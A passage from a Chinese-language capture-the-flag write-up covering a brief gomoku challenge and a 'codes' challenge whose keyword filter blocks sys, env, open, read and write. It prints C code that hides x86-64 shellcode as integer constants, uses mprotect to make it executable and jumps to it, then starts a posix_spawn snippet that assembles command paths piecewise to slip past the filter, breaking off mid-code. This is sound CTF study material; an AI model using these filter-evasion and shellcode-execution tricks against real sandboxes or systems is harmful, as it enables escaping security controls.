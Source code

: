 下五子棋，下下下下，下赢了就行了。  
本题注意的就是要提供稳定的网络环境哈哈哈哈哈别下一半卡了，好多师傅说卡。  
嗯，没啥多说的。

0x05 codes
==========

这题很抽象，也是我花时间最长的一题（是不是有点蠢……），所以我花多一点篇幅讲讲。

### 1.初步尝试：shellcode

在得知sys，env，open，read，write都被过滤之后，作为一个pwn手首先想到了就是使用shellcode。发现\\x也被过滤，转而写了个可打印字符串的shellcode，然后又发现不如直接用整数冒充shellcode。

    #include <stdio.h>
    #include <stdlib.h>
    int main() {
        // 声明一个函数指针
        void (*func_ptr)();
            long long int values[] = {
            0x006362616858556a,
            0x5e000001ff685f54,
            0x6858016a5f50050f,
            0xe3c1485b766e652f,
            0x03486e69622f6820,
            0x6a5e5453006a241c,
            0x00000000050f5a08
        };
        func_ptr = (void (*)()) values;
        long long int a = values;
        a = a & 0xfffffffff000;
        mprotect(a, 0x1000, 7);
        // 调用函数指针，执行跳转到字符串
       func_ptr();
    
        return 0;
    }
    

很帅吧，可惜我没想到出题人这么阴，mprotect也禁了……想尝试写一个/bin/env的sh文件，然后再命令/bin/sh 执行他。也不行捏。

### 2.字符串拼接posix\_spawn

可以执行任意命令，但是env命令没有回显，白给。  
并且尝试了子进程创建等等方式，无果。

    #include <stdio.h>
    #include <string.h>
    #include <spawn.h>
    
    
    int main() {
        pid_t child_pid;
        char path[100] = "/bin/l"; // 初始路径
        strcat(path, "s"); // 
    